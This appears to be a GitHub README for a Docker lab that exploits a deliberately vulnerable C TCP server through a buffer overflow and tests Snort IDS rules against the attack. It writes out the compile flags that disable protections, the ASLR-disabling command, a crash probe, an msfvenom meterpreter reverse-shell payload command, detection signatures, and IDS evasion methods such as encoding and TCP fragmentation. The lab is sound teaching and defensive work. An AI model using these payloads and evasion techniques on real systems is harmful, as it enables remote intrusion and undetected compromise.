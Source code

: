 # buffer-overflow-network-attack-lab-ns

A buffer overflow attack in a network context, detectable through an IDS based on Snort

# Exploit Buffer Overflow & IDS Analysis

## Overview

This project consists of implementing an attack scenario on a TCP server with a **buffer overflow vulnerability** in a containerized and isolated environment using Docker.The goal is to understand how this type of attack works, develop a working exploit to obtain **a remote shell** on the machine targeted by the attack, and test an **Intrusion Detection System (IDS)** to identify the attack by monitoring network traffic and subsequently bypass its detection.

The project includes:

- A **vulnerable TCP server** written in C implemented and compiled to make it vulnerable to this type of attack.
- A series of **exploits** that allow the vulnerability to be exploited, bypassing credential checking or obtaining a **reverse shell**.
- An IDS system implemented with Snort with some **IDS rules** for detecting the attack.
- **IDS evasion techniques** to demonstrate the limitations of rule-based systems.
  The scenario has been implemented in a containerised environment in which the entities interact according to the following network scheme:
  ![](img/schema.png)

---

## Project Configuration

It is possible to start the scenario by launching the prepared script start_env.sh with superuser privileges, then it will be necessary to access the server container and launch the server with a startup script (start_server.sh) and operate the exploit execution by connecting via an interactive shell to the attacking client container.

### Description of the scenario

The server contains a buffer overflow vulnerability realised through the use of the strcpy() function of the standard C language library, it is compiled by disabling the security protections to facilitate the exploit:

```bash
gcc -g -m32 -no-pie -fno-stack-protector -z execstack -Wl,-z,norelro -o server_vuln server_vuln.c
```

Its implementation can be found in the file server/server_vuln.c

In order to allow the attack, it will also be necessary to disable the kernel's security mechanisms designed to prevent this type of attack, i.e. ASLR:

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

Connecting to the server will ask you to enter your credentials to access the system; if you enter the correct credentials, the system responds with an authentication message and returns an ASCII Art.
![](img/access.png)
The attacking client can test the service by first sending a large input using python from the command line:

```bash
python -c "print 'A'\*3000 | nc vulnerable_server 4444"
```

in this way, if the server does not respond it will mean that it has crashed, this not only sets up as a Denial-of-Service attack, but is a clear indication of the possibility of a failure to check the input sent by the user exposing the server to a Buffer Overflow vulnerability.

By proceeding incrementally, however, it is possible to exploit the buffer overflow vulnerability and by providing an input of the right size, it will be possible to override the return parameter of the authentication function with a value other than 0 and pass the credential check while not knowing the credentials. This attack has been implemented and can be found in the file **exploit_auth_result.py**.

In order to carry out a more structured attack, it is necessary to calculate the offset of the input after which the **Extended Instruction Pointer**, a memory cell that contains the address of the calling function, is overwritten in order to return control.
This was done using the gdb debugger and the tools of the **Metasploit Framework (msf-pattern_create and msf-pattern_offset)** to obtain this information.
Next, a payload was prepared containing code to be injected for opening a reverse TCP shell on the target machine towards the attacking machine via the Metasploit Framework's msfvenom tool using the command:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LPORT=5555 LHOST=172.25.0.20 PrependSetuid=true -f python
```

the same has been concatenated with padding to fill the stack up to the EIP, a memory address to overwrite the EIP with the address of a cell containing our injected code, a set of NOP slide instructions and the actual generated payload. By launching the exploit and causing the attacking client to listen on the specified port we will obtain a remote shell of the now compromised target machine.
![](img/shell.png)

## IDS Configuration and Attack Detection

The attack detection system was implemented with **Snort**, configured to monitor the traffic between client and server with custom rules for detecting possible attacks on our internal network. Rules were defined to detect the buffer overflow attack by analysing characteristic patterns in the payload sent by the attacker.

### IDS Rules for Detection

Below are the rules implemented in Snort to identify the exploit attempt and any subsequent countermeasures by the attacker, defining an escalation of attack techniques and countermeasures that were implemented and analysed in this paper.

#### Detecting Repeated Sequences (Padding Overflow)

```bash
alert tcp any any -> 172.25.0.10 4444 (msg: "Possible Exploit Attempt - Buffer Overflow";
 pcre:"/(.)\1{5,}/"; flow:to_server,established; sid:1000001; rev:1;)
```

##### Countermeasure

The rule can however generate false positives and is easily bypassed with random sequences of characters for padding.

#### Signature Detection Associated with Running /bin/shell (Shellcode Signature)

```bash
alert tcp any any -> 172.25.0.10 4444 (msg: "Possible Exploit Attempt - Buffer Overflow (Shellcode Signature)"; content:"|b8 01 00 00 00 bb 01 00 00 00 cd 80|"; flow:to_server,established; classtype:attempted-admin; sid:1000003; rev:1;)
```

##### Countermeasure

Using the Shitaka Ga Nai encoding offered by msfvenom we can easily bypass the check

#### Signature detection associated with the Shitaka Ga Nai decoder (Shellcode Signature)

```bash
alert tcp any any -> 172.25.0.10 4444 (msg: "Possible Exploit Attempt - Buffer Overflow (Shikata Ga Nai - Shellcode Signature)"; content:"|d9 74 24 f4|"; flow:to_server,established; classstype:attempted-admin; sid:1000004; rev:1;)
```

##### Countermeasure

Using TCP fragmentation we can prevent the ids, which by default checks for signatures associated with rules in the individual packet, to fragment the payload and bypass the check

#### Configuring Snort to allow the IDS to reconstruct TCP flows

Configuring the snort.conf file to enable the stream5_tcp preprocessor to parse the content sent in the TCP flow by reconstructing the sent fragments.
